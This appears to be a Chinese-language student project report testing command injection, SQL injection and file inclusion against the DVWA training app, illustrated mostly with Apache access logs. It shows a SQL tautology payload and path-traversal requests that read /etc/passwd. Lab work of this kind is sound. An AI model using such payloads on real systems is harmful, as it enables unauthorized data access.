

# 期末專案:物聯網設備的攻擊實測
## Web Attacks漏洞測試
### 1.  測試DVWA/Command Injection
- 正常的命令注入測試


- 有漏洞的命令注入測試

***
####  cat /var/log/apache2/access.log 
```
192.168.10.59 - - [12/Feb/2016:03:22:59 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:22:59 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:20 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1959 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:23:24 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:18 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1965 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:21 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:47 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 2845 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:40:50 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:18 +0800] "POST /DVWA/vulnerabilities/exec/ HTTP/1.1" 200 1964 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:03:42:21 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/exec/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```
***

### 2. 測試DVWA/SQL Injection
- 正常的SQL語法測試:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```


- SQL Injection 漏洞測試 
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

***
#### cat /var/log/apache2/access.log
```
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/vulnerabilities/sqli/ HTTP/1.1" 200 1805 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 810 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:17 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 304 183 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit HTTP/1.1" 200 1885 "http://120.114.140.30/DVWA/vulnerabilities/sqli/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 810 "http://120.114.140.30/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:21 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:20:22 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```
***

### 3. 測試DVWA/File Inclusion
- 正常的網頁GET本地文件


- 有漏洞本地文件測試

#### cat /var/log/apache2/access.log
```
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:30:54 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd HTTP/1.1" 200 1457 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:01 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd HTTP/1.1" 200 2345 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/js/dvwaPage.js HTTP/1.1" 200 811 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/images/logo.png HTTP/1.1" 200 5332 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
192.168.10.59 - - [12/Feb/2016:04:31:07 +0800] "GET /DVWA/dvwa/css/main.css HTTP/1.1" 200 1447 "http://120.114.140.30/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
```

